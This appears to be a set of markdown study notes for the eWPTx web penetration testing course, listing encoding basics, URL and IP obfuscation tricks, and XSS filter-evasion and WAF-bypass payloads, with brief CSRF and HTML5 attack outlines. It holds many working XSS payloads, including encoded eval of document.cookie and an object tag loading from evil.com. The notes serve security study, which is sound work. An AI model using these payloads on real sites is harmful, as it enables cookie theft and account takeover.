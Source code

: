 # eWPTx (Web Penetration Testing xTreme)

## Module 1

### Data Encoding Basics
> URL encoding
* Safe Characters -> [0-9a-zA-Z] and $-.+!()'_* and  reserved chars
* ASCII Control Controls -> ISO-8859-1 (ISO LATIN - 00-1F hex [0-31 decimal])
* Non-ASCII Characters -> Top half of ISO latin (80-FF hex [128-255 decimal])
* Reserved Characters -> $&+,/:;=?@
* Unsafe Characters -> "<>#%{}|^~[]`\`

> HTML encoding
> Base 32|64 encoding
> Unicode encoding


## Module 2 

### Evasions

#### Base64 Encoding Evasion
* Specific keywords like alert, eval, prompt, document.cookie etc are blaclisted so encode them  

Ex ->> eval(document.cookie) --> eval(atob(ZG9jdW1lbnQuY29va2ll))
Eval can be blacklisted so instead use --> [].constructor.constructor("code")()

Ex ->> eval(document.cookie) --> [].constructor.constructor("atob(ZG9jdW1lbnQuY29va2ll)")()

### URL Obfuscation Techniques
> URL Shortner 
* If `https://example.com` is not allowed use URL shortners like bitly.com (ex. bit.ly/5475 or j.mp/5874), tinyurl.com, tiny.cc etc to bypass it.

> URL Hostname Obfuscation
* Normal URLs are like `https://example.com/s/#n:xss` but RFC_3986 says `https://_[valid_too]_@example.com` is valid too.
> URL Authority Obfuscation
* Structure :
foo://example.com:8080/over/here?name=legend#killer
In general :
scheme://authority/path/path?query#fragment

Ex ->> http://username:password@example.com/protected_path and http://www.google.com@example.com/t/xss

If no such auth mechanism is present the text before authority is ignored.

* DWORD - Double Word also known as Integer IP. Google IP 216.58.215.78 translate to 3627734862 and can be accessed at -> http://3627734862
* OCTAL - Google IP can be represented in Octal form like http://0330.0072.0327.0116 and we can feed leading zeros http://00000330.00000072.00000327.00000116
* HEXADECIMAL - Google IP can be represented in Hexadecimal like http://0xd83ad74e, also can be http://0xd8.0x3a.0xd7.0x4e, we can also add leading zeros http://0x000000d8.0x0000003a.0x000000d7.0x0000004e

#### Java Obfuscation Techniques
* Techniques ->> JJencode and Aaencode from JSFuck
* Minifying (Closure compiler, YUICompressor, JSMin, Packer)

#### PHP Obfuscation Techniques
* Type Juggling
* Single (No escapes) vs Double (escapes) quotes
* Curly brackets {$var} for variable parsing --> {$var}, ${var}, {${var}} etc
* Heredoc (for double quotes) vs Nowdoc (for single quotes) 

## Module 3 

### XSS - Cross Site Scripting
* Types ->> Stored, Reflected, DOM, Universal

## Module 4 

### XSS - Cross Site Scripting - Filter evasion and Waf bypass
* Bypass Weak `<script>` tag bans
	- `<ScRiPt>alert();</ScRiPt>`
	- `<ScRiPt>alert();`
	- `<scr\x00ipt>alert()</scr\x00ipt>`
* Don't use `<script>` tags.. Use HTML attributes
	- `<a href="javascript:alert(1)">show></a>`
	- `<form action="javascript:alert(1)"><button>send</button></form>`
	- `<object data="//evil.com/xss.swf">`
	- `<img src=x onerror=alert(1)>`
	- `<svg//////onload=alert(1)>`
	- `<svg/onload=alert(1)>`
* Character Escaping
	- Instead of `alert` use `prompt`, `confirm` etc.
	- Character Unicode --> `<script>\u0061lert(1)</script>`
	- Decimal , Octal or Hexadecimal Encode --> `<img src=x onerror="eval('\x61lert')"/>`
	- Constructing Strings --> `/ale/.source+/rt/.source` and `atob("YWxlcq==")` and `17795081..toString(36)`
	- Pseudo-protocols 
		-- Data --> `<object data="data:text/html,<script>alert(1)</script>">` , if "data:" word is blocked use `DaTa:` or `data&colon;`
		-- vbscript --> `<img src=a onerror="vbscript:msgbox 1"/>` or `<iMg src=a onErRor="vBsCriPt:AlErT(4)"/>`

* Bypass Santization 
	- Not checked recursively --> is `<script>` is blocked try `<scr<script>ipt>alert(1)</script>`
	- Checked only once --> `<scr<iframe>ipt>alert(1)</script>`
	- Escape apostrophe `'` use `\'`, escape backslash `\'` use `\\'`  


## Module 5

### CSRF Recap
* CSRF forces web applications to perform arbitary operations on behalf of the attacker.
* Web application is vuln to CSRF only if :
	- Application relies on HTTP Cookies and Basic Authentication for tracking sessions.
	- No uncontrollable paramters are present.
	- Sensitive action can be performed.
	

## Module 6

### HTML 5
* Attack Scenarios - Session Hijacking, User Tracking, Disclosure of Confidential Data etc.
* SOP, CORS 
* XSS, Shell of the Future
* Cross Directory attacks
* IndexedDB vs WebSQL Database
* Browser-Based Botnet - Infect and Manage Persistence
* CSP 
* UI Redressing - x-Jacking Art, ClickJacking, LikeJacking, StrokeJacking,   


## Module 7

### SQL Injection


